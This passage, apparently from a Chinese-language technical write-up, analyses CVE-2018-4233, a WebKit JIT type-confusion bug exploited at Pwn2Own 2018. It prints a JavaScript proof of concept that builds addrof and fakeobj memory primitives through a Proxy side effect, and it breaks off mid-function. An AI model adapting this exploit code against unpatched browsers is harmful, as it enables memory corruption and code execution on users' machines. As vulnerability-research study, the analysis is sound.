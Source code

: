```yaml
---
title: CVE-2018-4233 WebKit DFG JIT CreateThis SideEffect type confusion
---
```


### 一、简介

CVE-2018-4233是Pwn2Own 2018上Samuel Groß团队用来攻破Safari浏览器的漏洞。这是一个JIT编译器中side effect导致IR建模失败而产生的一个类型混淆漏洞，通过这样的类型混淆漏洞可以得到addrof、fakeobj两个原语，从而直接获得沙箱内远程代码执行的效果。

CVE-2018-4233是JIT中的类型混淆漏洞中的一个经典，非常有代表性。



### 二、漏洞概要

该漏洞的fix位于<https://github.com/WebKit/webkit/commit/b602e9d167b2c53ed96a42ed3ee611d237f5461a>，本文基于其parent commit 

7996e60。该版本更新时间是2018年3月末，PoC:

```javascript
let someObject = {};
let addrOfObject = primitiveAddrOf(someObject);
print(addrOfObject);
//let craftedAddress = 3.54484805889626e-310;
let craftedAddress = addrOfObject;
let fakeObj = primitiveFakeObj(craftedAddress);
print(fakeObj);
function primitiveAddrOf(someObject) {
    function visit(arr) {
         res = arr[0];      
    }
    let res = 1.1;
    let trigger = false;
    let arr = [1.1, 2.2, 3.3];
    let handler = {
        get(target, propname) {
            if (trigger)
                arr[0] = someObject;
            return target[propname];
        },
    };
    let visitProxy = new Proxy(visit, handler);
    for (let i = 0; i < 0x1000; i++)
        new visitProxy(arr, 13.37);

    trigger = true;
    new visitProxy(arr, 13.37);
    return res;
}
function primitiveFakeObj(craftedAddress) {
    function assign(arr, value) {
        arr[0] = value;
    }
   let trigger = false;
    let arr = [1.1, 2.2, 3.3];
    let handler = {
        get(target, propname) {
            if (trigger) 
                arr[0] = {};
            return target[propname];
        },
    };
    let assignProxy = new Proxy(assign, handler);
```